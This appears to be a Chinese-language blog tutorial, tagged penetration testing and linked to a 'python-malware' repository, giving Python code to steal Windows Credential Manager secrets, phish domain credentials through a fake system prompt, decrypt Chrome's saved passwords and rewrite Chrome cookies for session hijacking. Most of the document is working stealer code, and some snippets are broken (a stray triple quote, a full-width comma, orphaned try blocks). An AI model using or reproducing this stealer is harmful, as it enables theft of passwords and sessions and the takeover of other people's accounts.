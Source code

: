 ```yaml
---
title: 窃取凭据与cookie
description: 使用python窃取windows凭据与chrome cookie.
categories:
 - python
tags: 
 - python
 - 渗透测试
---
```


## 一、环境准备

`python3`
`pip install pypiwin32`

## 二、导入所需要包

导入所需包和模块，并创建一个常量，用来调用某些凭据管理器相关功能时使用。

```python
import os
import io
import sqlite3
import shutil
import win32cred
import win32crypt
import win32api
import win32con
import pywintypes

CRED_TYPE_GENERIC = win32cred.CRED_TYPE_GENERIC
```

## 三、从windows凭据管理器中存储通用凭据

通用凭据是非域凭据。如果你在windows上使用Git并通过GitHub，Bitbucket，Gitlab等进行身份验证，则凭据将存储在CredMan中。

首先导入枚举和读取凭据所需的功能。
```python
def dump_credsman_generic():
    CredEnumerate = win32cred.CredEnumerate
    CredRead = win32cred.CredRead
```
然后，我们枚举存储在凭据管理器中的凭据，并将其放入creds变量中，该变量是一个元组。
```python
try:
    creds = CredEnumerate(None, 0)  # 枚举凭证
except Exception:  # 避免在任何异常情况下崩溃
    pass
```
现在，我们要遍历每个凭据集，再添加到credentials列表中。
```python
credentials = []

for package in creds:
    try:
        target = package['TargetName']
        creds = CredRead(target, CRED_TYPE_GENERIC)
        credentials.append(creds)
    except pywintypes.error:
        pass
```
创建一个内存文本流，避免在磁盘上写文件，遍历credentials变量并将所需的数据写入文本流。
```python
credman_creds = io.StringIO()  # 内存中文本流

for cred in credentials:
    service = cred['TargetName']
    username = cred['UserName']
    password = cred['CredentialBlob'].decode('utf-8','ignore')

    credman_creds.write('Service: ' + str(service) + '\n')
    credman_creds.write('Username: ' + str(username) + '\n')
    credman_creds.write('Password: ' + str(password) + '\n')
    credman_creds.write('\n')

return credman_creds.getvalue()
```

![3_1](https://yui77111.github.io/assets/images/article/python/3_1.png)

## 四、询问提示域凭据

通过社工方式，用CredUIPromptForCredentials()功能来显示一个对话框来询问用户，从而欺骗用户向我们提供其域凭据。

```python
def ask_domain_credentials():
    CredUIPromptForCredentials = win32cred.CredUIPromptForCredentials

    creds = []

    try:
        creds = CredUIPromptForCredentials(os.environ['userdomain'], 0, os.environ['username'], None, True, CRED_TYPE_GENERIC, {})
    except Exception:
        pass
    return creds
```

![3_2](https://yui77111.github.io/assets/images/article/python/3_2.png)

返回如下格式

![3_3](https://yui77111.github.io/assets/images/article/python/3_3.png)

## 五、存储保存在Chrome中的密码

如果在保存凭据时未设置主密码，则访问数据库中的加密Blob可以使用CrytUnprotectData解密(因为windows上的Chrome使用CrytUnprotectData WinAPI函数对其进行加密，参考： [https://chromium.googlesource.com/chromium/chromium/+/master/chrome/browser/password_manager/encryptor_win.cc](https://chromium.googlesource.com/chromium/chromium/+/master/chrome/browser/password_manager/encryptor_win.cc))，只要它在当前用户上下文中完成即可。这意味着你不能只是获取数据库并在具有不同用户的另一台计算机上打开它。
Chrome密码存在Login Data在%localappdata%\Google\User Data\Default\目录中名为Login Data数据库中。可以用DB Brower看到数据库的结构。

![3_4](https://yui77111.github.io/assets/images/article/python/3_4.png)

我们想查询：action_urls，username_value和password_value。字段password_value包含一个加密的Blob，我们将使用以下代码对其进行解密。
我们先制作数据库文件的本地副本，否则如果当Chrome正在运行，它将带有一个句柄并且数据库将被锁定。

```python
try:
    login_data = os.environ['localappdata'] + '\\Google\\Chrome\\User Data\\Default\\Login Data'
    shutil.copy2(login_data, './Login Data')  # 复制数据库到当前目录
    win32api.SetFileAttributes('./Login Data',win32con.FILE_ATTRIBUTE_HIDDEN)  # 在文件操作过程中不可见
except Exception:
    pass

chrome_credentials = io.StringIO()
```
现在，我们使用sqlite3库打开Login Data数据库的本地副本，并查询用户保存凭据。
```python
try:
    conn = sqlite3.connect('./Login Data', )                                        # 连接数据库
    cursor = conn.cursor()                                                          # 创建一个游标来获取数据
    cursor.execute('SELECT action_url, username_value, password_value FROM logins') # 查询
    results = cursor.fetchall()                                                     # 获取数据
    conn.close()                                                                    # 关闭数据库文件，使其不会被进程锁定
    os.remove('Login Data')  
"""
```
遍历获取到的数据并使用WinAPI函数CryptUnprotectData解密密码，最后返回保存好的内存中的文本流。
```python
    for action_url, username_value, password_value in results:
        password = win32crypt.CryptUnprotectData(password_value, None, None, None, 0)[1] # 使用CryptUnprotectData解密
        if password:                                                                       # 将凭据写进内存中的文本流
            chrome_credentials.write('URL: ' + action_url + '\n')
            chrome_credentials.write('Username: ' + username_value + '\n')
            chrome_credentials.write('Password: ' + str(password) + '\n')
            chrome_credentials.write('\n')
    return chrome_credentials.getvalue()                                                   # 返回内存中的文本流

except sqlite3.OperationalError as e:
    print(e)
    pass

except Exception as e:
    print(e)
```

![3_5](https://yui77111.github.io/assets/images/article/python/3_5.png)

## 六、窃取Chrome Cookie

Chrome Cookie与存储在Chrome 的密码一样，为同目录下的Cookies文件并用CryptProtectData加密。但不同的是我们使用解密的cookie窃取整个数据库文件重写数据库内部的数据。然后，如果会话在服务器上尚未过期或用户尚未注销，则可以将该数据库上载到远程服务器，并在站点中用于进行身份验证。

```python
login_data = os.environ['localappdata'] + '\\Google\\Chrome\\User Data\\Default\\Cookies'  # cookies文件路径
shutil.copy2(login_data, './Cookies')  # 复制到当前路径
win32api.SetFileAttributes('./Cookies', win32con.FILE_ATTRIBUTE_HIDDEN)
try:
    conn = sqlite3.connect('./Cookies')  # 连接
    cursor = conn.cursor()
    cursor.execute('SELECT host_key, name, value, encrypted_value FROM cookies')  # 查询
    results = cursor.fetchall()  # 获取

    # 解密
    for host_key, name, value, encrypted_value in results:
        decrypted_value = win32crypt.CryptUnprotectData(encrypted_value, None, None, None, 0)[1].decode()

        # 使用解密的值更新文件
        cursor.execute("UPDATE cookies SET value = ?, has_expires = 1, expires_utc = 99999999999999999,is_persistent = 1, is_secure = 0 WHERE host_key = ? AND name = ?"，(decrypted_value, host_key, name));

    conn.commit()  # 保存改变
    conn.close()  # 关闭文件，使其不被进程锁定

except Exception as e:
    print(e)
    pass
```

原cookies文件

![3_6](https://yui77111.github.io/assets/images/article/python/3_6.png)

新生成cookies文件

![3_7](https://yui77111.github.io/assets/images/article/python/3_7.png)


源代码已上传致[gayhub](https://github.com/yui77111/python-malware/blob/master/credentials and cookies/main.py)